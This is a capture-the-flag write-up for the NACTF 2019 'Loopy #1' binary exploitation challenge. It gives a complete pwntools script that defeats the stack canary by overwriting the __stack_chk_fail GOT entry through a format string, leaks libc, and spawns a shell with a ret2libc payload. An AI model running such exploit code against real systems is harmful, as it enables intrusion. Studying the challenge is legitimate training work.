 # Loopy #1

## Binary Exploitation - Points: 500

> Same program as Loopy #0, but someone's turned on the stack protector now!
>
> 
>
> Connect at `nc shell.2019.nactf.com 31732`
>
> [loopy-1.c](loopy-1.c)
>
> [loopy-1](loopy-1)
>
> [libc.so.6](libc.so.6)
>

Compared to the previous challenge we have now stack canaries enabled. We can use another format string to modify the address of the `__stack_chk_fail` function, that is called when the canary value is corrupted, and point it to a `RET` gadget what effectively disables the canary check. The rest is basically identical to the previous challenge.

```python
from pwn import *

libc = ELF('libc.so.6')
libc_printf = libc.symbols['printf']
system = libc.symbols['system']
shell = next(libc.search('/bin/sh'))

e = ELF('loopy-1')
vuln = e.symbols['vuln']
__stack_chk_fail = e.got['__stack_chk_fail']
printf = e.got['printf']

r = ROP('loopy-1')
ret = r.find_gadget(['ret'])[0]

# p = remote('shell.2019.nactf.com', 31283)
p = process('./loopy-1')

print p.recvuntil('>')

format_string = fmtstr_payload(7, {__stack_chk_fail: ret})
payload = format_string + 'A' * (64 - len(format_string)) + 'A' * 16 + p32(vuln)
p.sendline(payload)
print p.recvuntil('>')

payload = p32(printf) + '%7$s' + 'A' * 56 + 'A' * 16 + p32(vuln)
p.sendline(payload)

print p.recvuntil('You typed: ')

p.recv(4)
leak = u32(p.recv(4))
log.info("leak: " + hex(leak))

libc_base = leak - libc_printf
system = libc_base + system
shell = libc_base + shell

log.info("system @ " + hex(system))
log.info("shell @ " + hex(shell))

print p.recvuntil('>')

payload = 'A' * 80 + p32(system) + p32(0x0) + p32(shell)

p.sendline(payload)
p.interactive()
```